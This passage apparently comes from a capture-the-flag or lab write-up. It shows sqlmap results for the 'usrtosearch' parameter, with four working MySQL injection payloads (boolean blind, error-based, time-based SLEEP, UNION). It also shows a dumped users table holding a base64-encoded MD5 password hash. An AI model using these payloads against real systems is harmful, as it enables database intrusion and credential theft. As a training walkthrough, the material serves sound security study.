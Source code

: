 
		Parameter: usrtosearch (GET)
		Type: boolean-based blind
		Title: AND boolean-based blind - WHERE or HAVING clause (MySQL comment)
		Payload: usrtosearch=" AND 5195=5195#

		Type: error-based
		Title: MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)
		Payload: usrtosearch=" AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x7176786a71,(SELECT (ELT(4502=4502,1))),0x7178767671,0x78))s), 8446744073709551610, 8446744073709551610)))-- RmAL

		Type: time-based blind
		Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
		Payload: usrtosearch=" AND (SELECT 9975 FROM (SELECT(SLEEP(5)))HjUW)-- Hkvj

		Type: UNION query
		Title: MySQL UNION query (NULL) - 3 columns
		Payload: usrtosearch=" UNION ALL SELECT CONCAT(0x7176786a71,0x6558556579436b4c6b736a645474705970505259756c734c58416f6261784e69665458716864597a,0x7178767671),NULL,NULL#

		Database: seth
		Table: users
		[2 entries]
		+----+---------------------------------------------+--------+------------+
		| id | pass                                        | user   | position   |
		+----+---------------------------------------------+--------+------------+
		| 1  | YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE | ramses | <blank>    |
		| 2  | --not allowed--                             | isis   | employee   |
		+----+---------------------------------------------+--------+------------+
		```
11. Pass is base64 encoded & hashed w/ md5